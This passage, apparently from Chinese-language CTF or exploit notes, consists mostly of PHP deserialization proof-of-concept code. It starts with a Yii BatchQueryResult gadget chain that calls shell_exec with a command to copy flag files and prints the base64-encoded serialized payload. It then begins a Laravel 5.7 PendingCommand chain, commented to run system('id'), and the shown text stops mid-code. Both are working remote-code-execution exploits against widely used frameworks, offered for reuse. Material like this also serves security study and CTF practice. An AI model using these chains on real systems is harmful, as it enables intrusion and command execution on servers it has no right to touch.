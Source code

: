 ```php
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new \yii\web\DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new \yii\db\BatchQueryResult('shell_exec', 'cp /f* bit.txt'); //此处写命令
    echo(base64_encode(serialize($exp)));
}

```

一个POC不行就再拿一个

#### Laravel反序列化漏洞

##### 5.7

```php
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        public $test;
        protected $app;
        protected $command;
        protected $parameters;

        public function __construct($test, $app, $command, $parameters)
        {
            $this->test = $test;                 //一个实例化的类 Illuminate\Auth\GenericUser
            $this->app = $app;                   //一个实例化的类 Illuminate\Foundation\Application
            $this->command = $command;           //要执行的php函数 system
            $this->parameters = $parameters;     //要执行的php函数的参数  array('id')
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        protected $instances = [];

        public function __construct($instances = [])
        {
            $this->instances['Illuminate\Contracts\Console\Kernel'] = $instances;
        }
```